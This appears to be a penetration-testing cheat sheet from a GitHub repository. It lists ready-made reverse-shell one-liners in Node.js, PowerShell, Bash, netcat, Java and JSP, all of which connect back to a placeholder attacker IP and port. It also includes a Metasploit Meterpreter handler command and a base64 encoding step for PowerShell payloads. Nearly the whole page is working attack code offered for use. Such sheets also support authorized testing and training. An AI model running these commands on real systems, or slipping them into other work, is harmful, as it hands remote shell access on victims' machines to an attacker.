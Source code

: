 # Miscellaneous

---

### Table of Contents
- [Metasploit Handler Oneliner](#metasploit-handler-oneliner)
- [Reverse Shells](#reverse-shells)
  * [JavaScript](#javascript)
  * [PowerShell](#powershell)
  * [Bash](#bash)
  * [Netcat](#netcat)
  * [Java](#java)

---

## Metasploit Handler Oneliner
- Create a `Metasploit` handler in one line

```bash
# E.g. Metapreter Reverse TCP
msfconsole -q -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <attacker_ip>;set LPORT <port>;run;"
```

## Reverse Shells
- Different stuff related to reverse shells

### JavaScript
- Context specific, e.g. `nodejs` (here: without URL encode)

```js
// NOT OpenBSD netcat, doesn't know -e
require("child_process").exec('nc <attacker_ip> <port> -e /bin/bash')

// Important: Use backticks here
process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'`)

// Another approach
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(4444, "<attack_ip>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

### PowerShell
- Simple oneliner for creating a `powershell` reverse shell

```powershell
# Oneliner
$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
```

-  Encode shell

```bash
iconv -f ASCII -t UTF-16LE shellcode.txt | base64 | tr -d "\n"
```

### Bash
- Doing it `bash` (and  `sh`) style

```bash
bash -l > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1

# Or

bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1

# Or
0<&196;exec 196<>/dev/tcp/<attacker_ip>/<port>; sh <&196 >&196 2>&196

# Or UDP
sh -i >& /dev/udp/<attacker_ip>/<port> 0>&1
```

### Netcat
- Reverse shell using different `netcat` flavours

```bash
# Traditional
nc <attacker_ip> <port> -e /bin/bash

# OpenBSD (no -e available)
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <port> >/tmp/f
```

### Java
- If `java` is needed

```java
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/<attacker_ip>/<port>;cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();
```

- If `jsp` is needed (above one is not working all the time)

```jsp
<%@ page import="java.io.*" %>
<%
    try {
         Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","bash -l > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1"});
    }
    catch(IOException e) {
         e.printStackTrace();
    }
%>
```
